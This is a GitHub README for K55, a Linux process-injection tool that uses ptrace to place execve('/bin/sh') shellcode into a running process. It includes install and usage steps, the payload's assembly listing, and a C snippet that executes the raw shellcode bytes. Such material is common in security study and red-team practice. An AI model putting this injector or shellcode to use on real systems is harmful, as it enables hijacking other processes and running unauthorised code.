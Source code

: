 ## K55 - Linux x86_64 Process Injection Utility (C++11)

## About K55 
The K55 payload injection tool is used for injecting x86_64 shellcode payloads into running processes. The utility was developed using modern C++11 techniques as well as some traditional C linux functions like ``ptrace()``. The shellcode spawned in the target process is 27 bytes and it executes /bin/sh (spawns a bash shell) within the target's address space.<br/>

## Installation
1. ``git clone https://github.com/josh0xA/K55.git``<br/>
2. ``cd K55``<br/>
3. ``chmod +x build-install.sh``<br/>
4. ``./build-install.sh``<br/>

## K55 Usage
``Usage: ./K55 <process-name>``<br/>
- process-name can be any linux process with ``r-xp`` or ``execstack`` permissions. <br/>

### Tests
Test 1) In one terminal (K55/ Directory), run: ``./k55_example_process/k55_test_process``<br/>
Test 2) In another terminal, run the injector: ``./K55 k55_test_process``<br/>

## K55 In Action
- A shell is spawned in k55_test_process when the K55 shellcode injector is ran (as root). 
### Injecting Into Given Process
<p align="center">
    <img src="https://github.com/josh0xA/K55/blob/main/imgs/injector_proof.png?raw=true">
</p> 

### Shell Spawned In Target
<p align="center">
    <img src="https://github.com/josh0xA/K55/blob/main/imgs/target_proof1.png?raw=true">
</p>

## Crafting The Shell Payload
Note: The following is a demonstration. The payload string is already hardcoded into K55.

#### Assembly Implementation of The Payload ([Cited from shell-storm (redirect)](http://shell-storm.org/shellcode/files/shellcode-806.php))
```asm
main:
    xor eax, eax
    mov rbx, 0xFF978CD091969DD1
    neg rbx
    push rbx
    push rsp
    pop rdi
    cdq
    push rdx
    push rdi
    push rsp
    pop rsi
    mov al, 0x3b
    syscall
```
#### C-Implementation of The Payload
```c
#include <stdio.h>
#include <string.h>

// Shellcode breakdown of the assembly code.
char code[] = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05";

int main()
{
    printf("len:%d bytes\n", strlen(code));
    (*(void(*)()) code)();
    return 0;
}

```

## License 
MIT License <br/>
2021 (c) Josh Schiavone
